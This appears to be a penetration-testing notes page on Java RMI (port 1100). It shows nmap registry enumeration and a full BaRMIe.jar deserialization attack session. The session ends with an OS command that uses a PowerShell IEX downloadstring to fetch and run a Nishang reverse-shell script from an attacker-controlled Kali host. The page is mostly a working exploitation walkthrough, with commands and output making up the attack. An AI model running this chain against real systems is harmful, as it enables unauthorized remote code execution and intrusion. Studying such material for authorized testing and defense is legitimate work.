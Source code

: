 ```yaml
---
title: PORT 1100/tcp - Java RMI
category: Services
order: 2
---
```

---
description: >-
  The Java Remote Method Invocation, or Java RMI, is a mechanism that allows an
  object that exists in one Java virtual machine to access and call methods that
  are contained in another one.
---

# PORT 1100/tcp - Java RMI

## Enumeration

We can enumerate RMI ports with nmap.

```
nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p <PORT> <IP>

<PORT>/tcp  open  java-rmi     Java RMI
| rmi-dumpregistry:
|   creamtec/ajaxswing/JVMFactory
|     com.creamtec.ajaxswing.core.JVMFactory_Stub
|     @127.0.0.1:49157
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
```

## BaRMIe.jar

If we can dump the registry of the java-rmi instance is the case where the machine may be vulnerable to a deserialization exploit. To exploit this deserialization on RMI ports I'm going to use BaRMIe.jar. We can download the file on the following link.

{% embed url="https://github.com/NickstaDB/BaRMIe/releases/download/v1.01/BaRMIe_v1.01.jar" %}

You need to select some parameters such as **target**, **attack**, **payload** and **OS command**, here and example of usage with a nishang reverse shell. I used Apache Commons for payload but you can use one different.

```
$ java -jar BaRMIe_v1.01.jar -attack <IP> <PORT>

Target summary:
  <IP>:<PORT>
    Available attacks:
      [---] Java RMI registry illegal bind deserialization

Target selection
 1) <IP>:<PORT> Reliability [---], Deser attack [Y], payload [?]
Select a target to attack (q to quit): 1

Available attacks for target: <IP>:<PORT>
 1) [---] Java RMI registry illegal bind deserialization
Select an attack to execute (b to back up, q to quit): 1

Attack: Java RMI registry illegal bind deserialization [---]

Deserialization payloads for: <IP>:<PORT>
 1) Apache Commons Collections 3.1, 3.2, 3.2.1
 2) Apache Commons Collections 4.0-alpha1, 4.0
 3) Apache Groovy 1.7-beta-1 to 2.4.0-beta-4
 4) Apache Groovy 2.4.0-rc1 to 2.4.3
 5) JBoss Interceptors API
 6) ROME 0.5 to 1.0
 7) ROME 1.5 to 1.7.3
 8) Mozilla Rhino 1.7r2
 9) Mozilla Rhino 1.7r2 for Java 1.4
 10) Mozilla Rhino 1.7r3
 11) Mozilla Rhino 1.7r3 for Java 1.4
 12) Mozilla Rhino 1.7r4 and 1.7r5
 13) Mozilla Rhino 1.7r6, 1.7r7, and 1.7.7.1
 a) Try all available deserialization payloads
Select a payload to use (b to back up, q to quit): 1


Enter an OS command to execute: powershell.exe -command "IEX(new-object net.webclient).downloadstring('http://<ip-kali>/Invoke-PowerShellTcp.ps1')"

```
